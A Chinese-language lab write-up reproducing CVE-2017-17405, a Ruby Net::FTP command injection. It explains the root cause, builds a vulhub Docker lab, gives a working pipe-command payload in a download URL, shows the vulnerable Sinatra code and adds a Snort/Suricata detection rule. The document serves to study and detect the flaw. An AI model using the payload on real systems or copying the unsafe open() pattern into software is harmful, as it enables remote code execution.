

# 0x0 前言
### CVE-2017-17405 Description  
Ruby before 2.4.3 allows Net::FTP command injection. Net::FTP#get, getbinaryfile, gettextfile, put, putbinaryfile, and puttextfile use **Kernel#open** to open a local file. If the **localfile** argument starts with the **"|" pipe character**, the command following the pipe character is executed. The default value of localfile is **File.basename(remotefile)**, so malicious FTP servers could cause arbitrary command execution.

### Ruby (< 2.4.3)
Ruby is an interpreted, high-level, general-purpose programming language.

### 原理
在CVE Description中提到的幾個function中都有用到open函數來開啟localfile以將remotefile讀到的資料寫入，且open是使用shell執行且沒有進行shell字元過濾，又localfile在傳入這些function時的預設值為remotefile，而remotefile是使用者可控的，導致在一些特殊情況如參數使用不當(忘記填localfile)、提供下載或列出所有FTP檔案時可利用pipe指令執行任意程式碼，而正常的使用方式為自行傳入localfile。  
以下以gettextfile為例：

```ruby
# Retrieves +remotefile+ in ASCII (text) mode, storing the result in
# +localfile+.
# If +localfile+ is nil, returns retrieved data.
# If a block is supplied, it is passed the retrieved data one
# line at a time.
def gettextfile(remotefile, localfile = File.basename(remotefile), 
                &block) # :yield: line
    f = nil
    result = nil
    if localfile
        f = open(localfile, "w")
    elsif !block_given?
        result = String.new
    end
    begin
        retrlines("RETR #{remotefile}") do |line, newline|
            l = newline ? line + "n" : line
            f&.print(l)
            block&.(line, newline)
            result&.concat(l)
        end
        return result
    ensure
        f&.close
    end
end
```
當使用不當或欲下載FTP的所有檔案(為了方便想要path配置皆跟remote端一樣)時，有可能會在gettextfile只傳入remotefile，導致localfile為預設值File.basename(remotefile)，並且由open(localfile, "w")進行開檔，此時若remotefile為以"|"開頭的pipe os command，則open會去執行該os command，造成RCE。  
官方對此的修正方法是將以上function用到的open皆改為較為安全的File.open。

### 情境
此重現的情境為有一正常的python架設的FTP伺服器(192.168.153.145:2121)提供FTP相關功能，而有一以ruby寫成的vulnerable web伺服器(192.168.153.145:8080)提供以web介面自FTP伺服器下載檔案的功能，攻擊者可透過該web介面傳入pipe os command執行任意程式碼。


* ()內為測試時使用之環境
* <>為可變動或需視使用環境變動的欄位
* `斜體字`為指令


# 0x1 前置需求
* 虛擬機軟體 (VMware Workstation 15.5.7)
* 攻擊機 (Kali Linux 2020.4)
* 受攻擊機 (Ubuntu 20.04)


# 0x2 受攻擊機環境建置
### 搭建ruby web伺服器
1. `sudo snap install docker`，下載最新版本docker

2. `sudo apt install docker-compose`，安裝docker-compose

3. `git clone https://github.com/vulhub/vulhub.git`

4. `cd vulhub/ruby/CVE-2017-17405`，切換至CVE-2017-17405所在目錄

5. `sudo docker-compose up -d`，建立container在**http://<受攻擊機IP>:8080**

### 搭建FTP伺服器
6. `sudo apt install python3-pip`，安裝pip3

7. `pip3 install pyftpdlib`，安裝pyftpdlib

8. `python3 -m pyftpdlib -p 2121 -i 0.0.0.0`，於port 2121開啟ftp server  


# 0x3 攻擊機環境建置
### Exploit
1. `http://<受害機IP(192.168.153.145)>:8080`，可以看到web server  


2. 開啟瀏覽器，網址列輸入`http://<受害機IP>:8080/download?uri=ftp://<受害機IP>:2121/&file=|<command(id>success.txt)>`  


### Validation (受攻擊機)
3. 確認受攻擊機目前位於~/vulhub/ruby/CVE-2017-17405/，執行`sudo docker-compose exec web bash`進入container後執行`cat success.txt`


# 0x4 後記
以下為此次web介面的ruby程式碼，可以看到使用了有漏洞的getbinaryfile來取得remotefile的內容，造成RCE。

```ruby
require 'sinatra'
require 'net/ftp'
require 'uri'

get '/' do
    'Use /download?uri=ftp://127.0.0.1:2121/&file=/path/to/file.txt to download a ftp file.'
end

get '/download' do
    content_type 'application/octet-stream'

    begin
        uri = URI.parse(params['uri'])

        ftp = Net::FTP.new 
        ftp.connect(uri.host, uri.port)
        ftp.login(uri.user || 'anonymous', uri.password)
        ftp.getbinaryfile(params['file'])
        ftp.close
    rescue
        return '404 Not Found'
    end

    File.open(params['file'], 'rb') {|f|
        return f.read
    }
```


# 0x5 Snort/Suricata Rule
1. alert tcp $EXTERNAL_NET any -> $HOME_NET [$HTTP_PORTS,9001] (msg:"SERVER-WEBAPP Ruby Net FTP library command injection attempt"; flow:to_server,established; content:"/download"; content:"uri=ftp://"; fast_pattern:only; content:"file="; nocase; pcre:"/[?&]file=[^&]*?([\x60\x3b\x7c]|[\x3c\x3e\x24]\x28)/i"; metadata:policy max-detect-ips drop, service http; reference:bugtraq,102204; reference:cve,2017-17405; reference:url,www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/; classtype:web-application-attack; sid:46791; rev:2;)

> 此CVE有多個vulnerable funtion，實作方式百百種，而這條rule算是針對此篇的實作方式的，但也因為實作方式太多，也難以一一制定rule。


# 0x6 Reference
* https://www.anquanke.com/post/id/104318
* https://gd008.github.io/2019/08/03/biji/
* https://blog.csdn.net/weixin_44253823/article/details/102917806
* https://github.com/vulhub/vulhub/tree/master/ruby/CVE-2017-17405

